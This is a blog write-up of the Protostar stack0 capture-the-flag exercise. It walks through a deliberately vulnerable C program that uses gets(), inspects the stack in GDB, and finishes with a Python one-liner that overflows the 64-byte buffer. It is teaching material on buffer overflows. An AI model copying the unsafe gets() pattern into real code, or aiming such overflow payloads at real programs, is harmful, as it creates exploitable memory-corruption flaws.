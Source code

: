 ```yaml
---
title: Protostar Writeup - stack0
updated: 2018-07-25 13:25
tags: [ctf, binary exploit, tech, protostar]
---
```


## Protostar - stack0

This post is a writeup for the Protostack - stack0 challenge. Before continuing further, I strongly advice that you first try them out yourself.
Here's the [link](https://exploit-exercises.com/protostar/stack0/). The first challenge is simple for a person doing CTF's for a while. This challenge is actually meant for beginners inorder to introduce them to CTF's.
I assume that if you got stuck here, you atleast have a VM running the Protostart iso, if not that's a good first challenge if you have never used VM's.

### stack0

If you read the description of the challenge you will see that all we have to do is modify a variable. Here's the attached code which is also present on the site.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
{% endhighlight %}

So let's analyze this code. We have some a variable called modified which we need to modify(ironic), note that modified is declared as volatile, this tells the compiler to not apply any optimizations to it. Then we have a buffer of 64 bytes.
Then we have modified set to 0 and we take some input. Now it's easy to see that there's no way to modify the modified variable(atleast not directly).
Now what options do we have? The only attack surface I could think of here is the `gets()` function. Looking at the man pages of it I came across something interesting in the bugs section.

> Never use gets()...impossible to tell...how many characters it will read...has been used to break computer security.

hmmm...interesting. Exploiting this has something to do with how memory is layed out. To keep things simple, when we declare a variable, it is reserved or stored on the stack. So if you understood what that means, buffer as well as modified should be on the stack.
And from the man pages we know that gets() has no limit on reading. So what happens if we read beyond 64 bytes? Let's try writing beyond 64 bytes. Let's fire up the GDB and take a look at what we have.

{% highlight shell %}
$ gdb stack0
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave
0x08048434 <main+64>:	ret
End of assembler dump.
{% endhighlight %}

Nothing interesting here. We know that "[esp+0x5c]" is the modified variable just by looking at the assembly, since a 0 is moved into that location.
Let's set a break point just after the "gets()" call, run the program and take a look at what happens.

{% highlight shell %}
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
...
(gdb) x/24wx $esp
0xbffff740:	0xbffff75c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff750:	0xb7fd7ff4	0xb7ec6165	0xbffff768	0x41414141
0xbffff760:	0x41414141	0x41414141	0xbf004141	0x080482e8
0xbffff770:	0xb7ff1040	0x08049620	0xbffff7a8	0x08048469
0xbffff780:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff7a8
0xbffff790:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
{% endhighlight %}

Let me explain what I did. I set a break point just after the gets() call because I want to get an idea of where on the stack the data is stored. "A" in hex is 0x41.
We print the first 24 (w)ords in he(x) format. You can see where our 'A's got stored. And if you take a closer look, towards the end you find the value of modified which is 0.
So what we need to do is overflow the input into the modified variable and we're done. Just by observation of the stack, we see that we require a minimum of 4 * 4 * 4 + 1 bytes of data, which is co-incidently one more byte than the buffer size. More would work too, but this is the minimum.
Let's write exploit this with a little help from python and pipes.

{% highlight shell %}
$ python -c "print 'A' * 64 + 'B'" | ./stack0
you have changed the 'modified' variable
{% endhighlight %}

And there we have it, we have successfully modified the value of a variable, using a buffer overflow. Simple yet fundamental to understanding how not to write code.
I'll be posting more solutions in my free time. If you got this on your first try, way to go! If not, then remember 'Every expert was once a beginner'. Another little thing I would like to stress upon, is that you should keep questioning why it works the way it does. If you aren't, you aren't learning anything at all.

### Sites
[Protostar](https://exploit-exercises.com/protostar/)
[Phrack Magzine](http://phrack.org/issues/49/14.html)
[LiveOverflow](https://liveoverflow.com/)
